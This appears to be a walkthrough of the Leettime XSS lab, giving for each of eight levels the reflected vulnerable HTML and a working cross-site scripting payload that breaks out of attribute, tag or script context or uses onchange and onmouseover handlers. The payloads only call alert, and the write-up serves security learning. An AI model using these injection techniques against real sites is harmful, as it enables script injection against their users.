

# Leettime

URL: http://leettime.net/xsslab1

[TOC]

## Lab Solutions

> To check for an injection point I have used `tipsy` as an input parameter.

## [Level 1](http://leettime.net/xsslab1/chalg1.php)

**Vulnerable Code :** 

```jsx
<center>cannot find tipsy</center>
```

Now as you can see, this is simply reflecting the input, and thus we can use our most basic payload. 

- **Payload :**

    ```jsx
    <script> alert(document.URL) </script>
    ```

## [Level 2](http://leettime.net/xsslab1/sta_ge2.php)

**Vulnerable Code :** 

```jsx
<input type="text" name="name" value=tipsy></input>
```

Now as you can see, the input is being loaded inside the input tag. So naturally we can try to skip over the input tag using the following payload.

- **Payload :**

    ```jsx
    ></input><script> alert(document.URL) </script>
    ```

## [Level 3](http://leettime.net/xsslab1/stg_3.php)

**Vulnerable Code :** 

```jsx
<font size=3>Enter Your Name here : <input type="text" name="name" value="tipsy"></input>
```

Now as you can see, the input is being loaded inside the input tag, but along with a ' " '  . So naturally, we can try to skip over the input tag using the following payload.

- **Payload :**

    ```jsx
    "></input><script> alert(document.URL) </script>
    ```

## [Level 4](http://leettime.net/xsslab1/chlng_004.php)

**Vulnerable Code :** 

```jsx
<input type="text" name="name" value='tipsy'></input>
```

This one is a slight modification over the last one in a way that " was replaced with '. we can bypass this and create our payload in the same way.

- **Payload :**

    ```jsx
    '></input><script> alert(document.URL) </script>
    ```

## [Level 5](http://leettime.net/xsslab1/chl05.php)

**Vulnerable Code :** 

```jsx
<script>var search_str="tipsy";</script>
```

In this one, as we can see `tipsy` occurs inside a script tag. hence we will need to close the script tag first and then inject our basic payload.

- **Payload :**

    ```jsx
    ";</script><script> alert(document.URL) </script>
    ```

## [Level 6](http://leettime.net/xsslab1/ch__006_.php)

**Vulnerable Code :** 

```jsx
<script>var search_str='tipsy';</script>
```

This is just a slight modification over the last one, and hence the payload is easier to write.

- **Payload :**

    ```jsx
    ';</script><script> alert(document.URL) </script>
    ```

## [Level 7](http://leettime.net/xsslab1/ch_7_stage.php)

**Vulnerable Code :** 

```jsx
<input type="text" name="name" value='tipsy'></input>
```

This one again looks like a basic one, but this time when we try to inject it with `'></input><script> alert(document.URL)</script>` , it doesn't work, and the source code shows 

`<input type="text" name="name" value=''</input<script document.URL </script'></input>`

This means that we need to exploit some functionality used by input tag.

After some research , `on change` can be added to inject the payload.

- **Payload :**

    ```jsx
    ' onchange='alert(document.URL)'
    ```

## [Level 8](http://leettime.net/xsslab1/stage--08.php)

**Vulnerable Code :** 

```jsx
<input type="text" name="name" value='tipsy'></input>
```

In this the input is being tokenized, and trying out all the previous payloads doesn't work.

So always remember to check all the parameters, 

In this case, let's see the request that is being sent.

[`http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search`](http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search)

and we have already seen that name parameter is not vulnerable.

Let's try to change the value of `submit`` parameter and check if it is reflecting !

New request - 

[`http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy`](http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy)

**Vulnerable Code :**

```python
<input type="submit" name="submit" value="tipsy">
```

Now let's try to build the payload with mouseonover 

- **Payload :**

    ```jsx
    " onmouseover="alert(document.URL);
    ```


## And we are done !!

